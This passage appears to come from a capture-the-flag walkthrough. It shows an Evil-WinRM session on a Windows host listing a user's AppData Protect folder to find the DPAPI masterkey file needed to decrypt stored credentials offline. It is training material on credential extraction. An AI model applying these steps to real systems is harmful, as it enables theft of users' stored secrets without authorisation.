 As next step we focused on `downloading` and `decrypting` the `DPAPI Blob` offline.

- [https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary](https://www.synacktiv.com/en/publications/windows-secrets-extraction-a-summary)

We already got the location for the `Blob` so we looked for the directory named like the `SID` (`S-1-5-21-1487982659-1829050783-2281216199-1107`) which contained the `file` (`556a2412-1275-4ccf-b721-e6a0b4f90407`) necessary to `decrypt` the `Masterkey`.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft> dir


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-          3/8/2025   7:53 AM                Credentials
d---s-          3/8/2025   7:40 AM                Crypto
d-----          3/8/2025   7:40 AM                Internet Explorer
d-----          3/8/2025   7:40 AM                Network
d---s-          3/8/2025   7:40 AM                Protect
d-----          5/8/2021   1:20 AM                Spelling
d---s-         2/23/2025   2:35 PM                SystemCertificates
d-----         2/23/2025   2:36 PM                Vault
d-----          3/8/2025   7:52 AM                Windows
```

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect> dir


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107
```

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> gci -Hidden


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred
```

